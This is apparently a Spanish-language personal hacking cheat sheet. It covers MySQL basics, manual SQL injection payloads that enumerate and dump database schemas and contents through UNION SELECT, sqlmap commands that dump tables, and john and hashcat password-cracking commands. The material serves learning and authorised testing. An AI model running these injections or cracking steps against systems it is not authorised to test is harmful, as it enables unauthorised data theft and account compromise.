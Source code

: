 # HACKING

> Aqui el escenario es variado y va a depender mucho de la fase de reconocimiento, se debe tener muy presente que tipo de servicios se encontraron expuestos pero sobre todo las versiones, a continuacion alguna de los ataques que he ido aprendiendo

<br>

## SQL INJECTION

### Comandos Basicos de MySQL

``CREATE DATABASE <NOMBRE_DB>;``

``SHOW DATABASES;``

``USE <NOMBRE_DB>;``

``CREATE TABLE <NOMBRE_TABLA>(COLUMNA1 TIPO, COLUMNA2 TIPO, COLUMNA3 TIPO);``

> Los tipos de campos dentro de las tablas son: int(32) = Numeros Enteros, varchar(32) = Caracteres, char(80), longtext

``SHOW TABLES;``

``DESCRIBE <NOMBRE_TABLA>;`` --> Ver Columnas de una Tabla

``SELECT <COLUMNA1,COLUMNA2> FROM <NOMBRE_TABLA>;`` --> Muestra los datos de una Tabla

``SELECT <COLUMNA1,COLUMNA2> FROM <NOMBRE_TABLA> WHERE <COLUMNA1>='DATO';`` --> Para filtrar por un dato especifico

``SELECT * FROM <NOMBRE_TABLA>;`` --> Muestra todos los datos de una Tabla

``CREATE USER 'NOMBRE'@'IP' IDENTIFIED BY 'PASSWORD';``

``GRANT ALL PRIVILEGES ON NOMBRE_DB.* TO 'USUARIO'@'IP';``

<br>

### Querys para SQL Injection

``valor' ORDER BY 100'-- -`` --> Ayuda a identificar el numero de columnas

``valor' UNION SELECT database()-- -``

``valor' UNION SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata -- -`` --> Si tiene una sola columna

``valor' UNION SELECT GROUP_CONCAT(schema_name), NULL, NULL FROM information_schema.schemata -- -`` --> Si se identifico que tiene varias columnas un NULL por cada columna

``valor' UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='nombre_db' -- -``

``valor' UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema='nombre_db' AND table_name='tabla' -- -``

``valor' UNION SELECT GROUP_CONCAT(columna) FROM nombre_db.tabla -- -``

<br>

### Injeccion de SQL con SQLMAP

> Para el uso de SQLMAP se puede capturar una peticion POST y guardarla en un archivo .req o identificar los campos inyectables en una url

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> --batch`` --> Para identificar rapidamente si es inyectable o no

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> --dbs --batch`` --> Para listar bases de datos

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> -D <nombre_db> --tables`` --> Para ver las tablas

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> -D <nombre_db> -T <nombre_tabla> --columns`` --> Para ver las columnas de una tabla

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> -D <nombre_db> -T <nombre_tabla> -C <col1,col2,col3> --dump`` --> Para volcar todos los campos de una tabla

<br>

### Descifrado de Contrasenas

``john --format=raw-md5 archivo_hash --wordlist=/ruta/al/diccionario.txt``

> Cuando no se conoce el formato del hash se puede buscar con hashid o hash-identifier en Kali o via web en hashes.com

> Para convertir archivos cifrados o con clave a un hash de john se puede usar bitlocker2john, dmg2john, eapmd5tojohn, keepass2john, putty2john, rar2john, racf2john, uaf2john, vncpcap2john, wpapcap2john, zip2john

``hashcat -m 0 -a 0 <<archivo>> /ruta/al/diccionario.txt``

